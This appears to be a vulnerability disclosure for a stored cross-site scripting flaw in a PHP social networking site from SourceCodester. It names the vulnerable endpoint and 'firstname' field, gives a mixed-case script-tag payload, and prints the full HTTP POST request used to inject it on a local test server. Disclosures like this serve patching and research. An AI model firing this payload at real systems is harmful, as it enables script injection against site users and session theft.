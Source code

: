 # simple-social-networking-site-instagram v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /sns/classes/Users.php?f=save

Vulnerability location: /sns/classes/Users.php?f=save, firstname

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /sns/classes/Users.php?f=save HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------2778781845921125101691173168
Content-Length: 1036
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/sns/admin/?page=user/manage_user
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="id"


-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="firstname"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="middlename"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="lastname"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="username"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="password"

123
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="type"

2
-----------------------------2778781845921125101691173168
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------2778781845921125101691173168--

```

![](https://github.com/mikeccltt/sns_bug_report/blob/main/simple-social-networking-site-instagram/xss.gif?raw=true)
